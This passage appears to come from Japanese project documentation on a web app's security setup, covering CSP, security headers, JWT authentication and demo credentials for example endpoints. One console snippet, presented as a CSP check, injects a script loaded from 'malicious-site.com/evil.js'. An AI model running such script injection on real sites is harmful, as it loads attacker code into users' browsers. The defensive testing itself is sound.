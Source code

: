 2. **CSP動作確認**:
   ```javascript
   // コンソールで実行（攻撃テスト）
   var script = document.createElement('script');
   script.src = 'https://malicious-site.com/evil.js';
   document.head.appendChild(script);
   // → CSPによりブロックされることを確認
   ```

3. **セキュリティヘッダー確認**:
   ```
   F12 → Network → レスポンスヘッダー
   ✅ X-XSS-Protection: 1; mode=block
   ✅ X-Content-Type-Options: nosniff
   ✅ Content-Security-Policy: default-src 'self'...
   ```

### 6.2 本番環境セキュリティステータス

**現在の稼働環境セキュリティ状況**:
- 🌐 **フロントエンド**: https://example-frontend.cloudfront.net/
  - SSL/TLS A+グレード証明書
  - CSP・セキュリティヘッダー完全適用
  - HttpOnly Cookie認証動作確認済み

- 🔗 **GraphQL API**: https://example-graphql-api.com/
  - JWT認証フル稼働（demo_user/demo_password）
  - @auth/@hasRole ディレクティブ動作確認
  - BCryptパスワードハッシュ化適用済み

**セキュリティテスト実行可能項目**:
```
認証テスト:
1. ログイン → demo_user/demo_password
2. 認証状態確認 → ダッシュボード表示
3. 権限テスト → テストスイート作成・管理
4. 自動ログアウト → 15分後の期限切れ確認
```

---

## 7. まとめ: 統合セキュリティアーキテクチャの価値

### 7.1 設計思想の価値確立

**このプロジェクトで確立した設計原則**:
- ✅ **多層防御による堅牢性**: 単点障害なし・攻撃耐性向上
- ✅ **現代的技術選択**: JWT・CSP・HttpOnly Cookie等の業界標準実装
- ✅ **スケーラビリティ確保**: AWS環境での自動拡張対応設計
- ✅ **運用効率性**: 宣言的セキュリティによる保守性向上

### 7.2 実践的セキュリティ実装力の証明

**技術習得・実装能力の実証**:
- 🏆 **フルスタックセキュリティ**: フロントエンド・バックエンド・インフラの統合セキュリティ
- 🏆 **エンタープライズ対応**: 業務レベルのセキュリティ要件への実装対応
- 🏆 **セキュリティ設計力**: 攻撃手法理解・防御戦略立案・技術選択判断
- 🏆 **継続改善基盤**: 運用監視・インシデント対応・アップデート対応
